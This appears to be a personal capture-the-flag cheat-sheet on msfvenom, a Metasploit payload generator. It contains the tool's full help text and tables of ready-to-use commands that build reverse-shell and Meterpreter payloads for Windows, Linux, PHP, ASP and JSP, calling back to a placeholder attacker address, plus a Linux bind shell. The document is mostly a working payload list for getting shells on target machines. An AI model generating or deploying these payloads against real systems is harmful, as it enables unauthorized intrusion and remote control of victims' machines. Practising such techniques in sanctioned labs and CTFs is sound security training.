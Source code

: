 # msfvenom

- [Introduction](#introduction)
- [Usage](#usage)
- [Examples](#examples)

## Introduction

I use msfvenom in capture the flag events when I am trying to get access to a machine or when trying to escalate my privileges. What makes this tool so great is that I can craft a payload and output it in a wide array of formats. Some of those outputs include:

- php script
- python script
- Windows executable
- Windows service
- bash script

## Usage

```bash
$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

## Examples

Below are some different payload commands. I have grouped them with a heading to help explain what the payload is for.

### Windows Payloads

| Description | Command |
| --- | --- |
| Windows Reverse TCP Meterpreter | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe` |
| Windows Reverse HTTP Meterpreter | `msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=8080 -f exe > shell_http.exe` |
| Windows Reverse HTTPS Meterpreter | `msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe > shell_https.exe` |
| Windows Staged Reverse TCP | `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell_stage.exe` |
| Windows Reverse TCP PowerShell | `msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.ps1` |

### Linux Payloads

| Description | Command |
| --- | --- |
| Linux x86 Reverse TCP | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux x64 Reverse TCP | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux Bind TCP | `msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf > bind_shell.elf` |

### Web Payloads

| Description | Command |
| --- | --- |
| PHP Reverse TCP | `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php` |
| ASP Reverse TCP | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f asp > shell.asp` |
| JSP Reverse TCP | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.jsp` |
